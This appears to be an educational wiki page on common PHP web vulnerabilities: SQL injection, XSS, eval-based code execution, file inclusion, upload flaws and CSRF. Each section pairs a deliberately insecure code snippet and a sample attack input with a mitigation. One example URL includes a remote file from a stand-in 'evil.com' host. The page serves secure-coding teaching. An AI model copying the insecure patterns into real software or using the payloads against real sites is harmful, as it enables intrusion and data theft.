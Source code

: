 ## Overview
PHP (Hypertext Preprocessor) is a popular server-side scripting language widely used for web development. It is embedded into HTML and is known for its ease of use and flexibility. However, due to its popularity and broad deployment, PHP web applications are common targets for attackers, often due to insecure coding practices.

## Features
- **Server-Side Scripting:** PHP scripts are executed on the server, generating HTML sent to the client.
- **Database Interaction:** PHP can connect to and interact with various databases, including MySQL, PostgreSQL, and SQLite.
- **Session Management:** Built-in functions for handling user sessions and authentication.
- **File Handling:** Allows reading, writing, and manipulation of files on the server.
- **Integration:** Easily integrates with HTML, JavaScript, and CSS, making it a staple in web development.

## Website
- [PHP Official Website](https://www.php.net/)

## Common Vulnerabilities in PHP Web Applications

### 1. **SQL Injection**
   - **Description:** Occurs when user input is improperly sanitized and directly incorporated into SQL queries, allowing attackers to execute arbitrary SQL commands.
   - **Exploitation:**
```php
     <?php
     $username = $_GET['username'];
     $query = "SELECT * FROM users WHERE username = '$username'";
     ?>
```
   - **Exploitation Vector:** An attacker can manipulate the `$username` parameter to inject SQL code:
```
http://example.com/login.php?username=admin' OR '1'='1
```
   - **Mitigation:** Use prepared statements with bound parameters.
```php
     <?php
     $stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
     $stmt->execute([$username]);
     ?>
```

### 2. **Cross-Site Scripting (XSS)**
   - **Description:** Occurs when user input is improperly sanitized and then rendered in a web page, allowing attackers to inject malicious scripts.
   - **Exploitation:**
```php
     <?php
     echo "Hello, " . $_GET['name'];
     ?>
```
   - **Exploitation Vector:** An attacker can inject a script via the `name` parameter:
```
http://example.com/greet.php?name=<script>alert('XSS')</script>
```
   - **Mitigation:** Use `htmlspecialchars()` to escape output.
```php
     <?php
     echo "Hello, " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
     ?>
```

### 3. **Remote Code Execution (RCE)**
   - **Description:** Occurs when user input is directly executed as code, allowing attackers to run arbitrary commands on the server.
   - **Exploitation:**
```php
     <?php
     eval($_GET['code']);
     ?>
```
   - **Exploitation Vector:** An attacker can execute arbitrary PHP code:
```
http://example.com/exec.php?code=phpinfo();
```
   - **Mitigation:** Avoid using `eval()` with user input. Use strict input validation and sanitization.

### 4. **File Inclusion**
   - **Description:** Includes local or remote files based on user input, allowing attackers to execute malicious scripts.
   - **Exploitation:**
```php
     <?php
     include($_GET['page']);
     ?>
```
   - **Exploitation Vector:** An attacker can include arbitrary files:
```
http://example.com/index.php?page=http://evil.com/malicious.php
```
   - **Mitigation:** Use `basename()` to sanitize filenames and avoid including files from user input. Disable `allow_url_include` in `php.ini`.

### 5. **File Upload Vulnerabilities**
   - **Description:** Improper handling of file uploads can lead to arbitrary file uploads, allowing attackers to upload malicious scripts.
   - **Exploitation:** Uploading a PHP file disguised as an image.
   - **Mitigation:** Validate file types using MIME type checks, restrict file extensions, and store files outside the web root.

### 6. **Cross-Site Request Forgery (CSRF)**
   - **Description:** Forces a user to execute unwanted actions on a web application in which they are authenticated.
   - **Exploitation Vector:** Sending a malicious link or form to a user:
```html
     <form action="http://example.com/transfer.php" method="POST">
         <input type="hidden" name="amount" value="1000">
         <input type="hidden" name="to_account" value="attacker_account">
         <input type="submit">
     </form>
```
   - **Mitigation:** Use CSRF tokens in forms and validate them on the server side.

## Tools for Exploiting PHP Applications
- **[[Burp Suite]]:** Used for intercepting and modifying HTTP requests, ideal for testing SQLi, XSS, and other web vulnerabilities.
- **[[Metasploit]]:** Contains modules for exploiting web applications, including PHP-based exploits.
- **[[SQLMap]]:** Automated tool for SQL injection testing and exploitation.
- **[[FoxyProxy]]:** Used in conjunction with Firefox to easily manage proxy settings while testing web applications.

## Best Practices
- **Input Validation and Sanitization:** Always validate and sanitize user inputs to prevent SQL injection, XSS, and other injection attacks.
- **Use Secure Coding Practices:** Follow secure coding guidelines such as OWASP to avoid common vulnerabilities.
- **Keep PHP and Libraries Updated:** Regularly update PHP and any libraries to mitigate known vulnerabilities.
- **Use Security Extensions:** Utilize security extensions like `Suhosin` for additional protection.
- **Configure `php.ini` Securely:** Disable dangerous functions such as `eval()`, `exec()`, `shell_exec()`, and configure proper error reporting settings.

## References
- [PHP Official Website](https://www.php.net/)
- [OWASP PHP Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/PHP_Security_Cheat_Sheet.html)
- [PHP Secure Coding Guidelines](https://www.php.net/manual/en/security.php)
- [Exploit-DB PHP Vulnerabilities](https://www.exploit-db.com/search?q=php&platform=php)

